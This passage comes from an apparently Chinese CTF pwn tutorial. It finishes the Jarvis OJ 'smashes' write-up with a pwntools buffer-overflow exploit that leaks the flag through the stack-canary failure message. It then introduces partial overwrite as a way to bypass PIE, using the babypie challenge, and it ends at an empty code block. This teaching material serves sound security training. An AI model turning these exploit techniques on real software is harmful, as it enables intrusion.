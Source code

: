 可以看出rsp的值为0x7fffffffda40，那么相对偏移为

```python
>>> 0x00007fffffffdc58-0x7fffffffda40
536
>>> hex(536)
'0x218'
```

#### 利用程序

我们构造利用程序如下

```python
from pwn import *
context.log_level = 'debug'
smash = ELF('./smashes')
if args['REMOTE']:
    sh = remote('pwn.jarvisoj.com', 9877)
else:
    sh = process('./smashes')
argv_addr = 0x00007fffffffdc58
name_addr = 0x7fffffffda40
flag_addr = 0x600D20
another_flag_addr = 0x400d20
payload = 'a' * (argv_addr - name_addr) + p64(another_flag_addr)
sh.recvuntil('name? ')
sh.sendline(payload)
sh.recvuntil('flag: ')
sh.sendline('bb')
data = sh.recv()
sh.interactive()
```

这里我们直接就得到了 flag，没有出现网上说的得不到 flag 的情况。

### 题目
- 2018 网鼎杯 - guess

## 栈上的 partial overwrite
partial overwrite 这种技巧在很多地方都适用, 这里先以栈上的 partial overwrite 为例来介绍这种思想。

我们知道, 在开启了随机化（ASLR，PIE）后, 无论高位的地址如何变化，低 12 位的页内偏移始终是固定的, 也就是说如果我们能更改低位的偏移, 就可以在一定程度上控制程序的执行流, 绕过 PIE 保护。

### 2018-安恒杯-babypie
以安恒杯 2018 年 7 月月赛的 babypie 为例分析这一种利用技巧, 题目的 binary 放在了 [ctf-challenge](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/partial_overwrite) 中
#### 确定保护
```bash
babypie: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=77a11dbd367716f44ca03a81e8253e14b6758ac3, stripped
[*] '/home/m4x/pwn_repo/LinkCTF_2018.7_babypie/babypie'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
64 位动态链接的文件, 开启了 PIE 保护和栈溢出保护
#### 分析程序
IDA 中看一下, 很容易就能发现漏洞点, 两处输入都有很明显的栈溢出漏洞, 需要注意的是在输入之前, 程序对栈空间进行了清零, 这样我们就无法通过打印栈上信息来 leak binary 或者 libc 的基址了
```C
```